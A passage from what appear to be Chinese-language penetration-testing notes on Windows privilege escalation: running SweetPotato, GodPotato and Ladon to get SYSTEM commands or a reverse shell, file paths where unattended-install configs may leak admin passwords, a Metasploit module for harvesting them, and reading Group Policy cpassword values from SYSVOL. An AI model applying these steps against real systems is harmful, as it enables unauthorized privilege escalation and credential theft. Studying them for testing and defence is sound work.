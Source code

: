 基本用法：

将工具上传至靶机，执行如下命令，可以以system权限执行命令，或者反弹shell

```bash
sweetpotato.exe -a whoami
```

#### God Potato

适用最新的windows版本

#### Ladon

[Ladon](F:\ctfTools\Ladon-大型内网渗透工具\Ladon911)

直接使用Ladon来使用Potato提权即可，效果更佳

```bash
Ladon SweetPotato whoami
Ladon GodPotato whoami
```

### 枚举Unattended凭据

无人值守（Unattended）安装允许应用程序在不需要管理员关注下自动安装。无人值守安装的问题是会在系统中残留一些配置文件，其中可能包含本地管理员的用户名和密码。

常见目录

```bash
c:\sysprep.inf
c:\sysprep\sysprep.xml
c:\Windows\system32\sysprep.inf
c:\windows\system32\sysprep\sysprep.xml
c:\unattend.xml
c:\windows\Panther\Unattend.xml
c:\Windows\Panther\Unattended.xml
c:\windows\Panther\Unattend\unattended.xml
c:\windows\Panther\Unattend\Unattend.xml
c:\windows\System32\Sysprep\Unattend.xml
c:\windows\System32\Sysprep\Panther\Unattend.xml
```

#### MSF模块

`MSF`中提供了 `post/windows/ghther/enum_unattend` 模块，可以从`Unattend`配置文件中自动化检出密码

### 获取组策略凭据

在大型的企业或组织的域环境中，网络管理员往往会通过下方组策略的方式对所有加入域的计算机的本地管理员进行批量修改。在新建一个组策略后，域控制器会自动在SYSVOL共享目录中生成一个XML文件，该文件保存了组策略更新后的密码。SYSVOl是安装活动目录时创建的一个用于存储公共文件服务器副本的共享文件夹，主要存放登录脚本、组策略数据以及其他域控制器需要的域信息等，并在所有经过身份认证的域用户或者域信任用户范围内共享。
通过`net share`可以看到这个SYSVOl目录。

在SYSVOL目录中，有一个Groups.xml文件，其中的cpassword字段保存了经过AES256算法加密后的密码，但是这个加密私钥在2012年被微软公开了。因此任意经过认证的用户都可以读取保存在xml文件的密码。

```bash
\\<DC-IP>\sysvol\<Domian>\Policies\{……}\...\Groups.xml
```
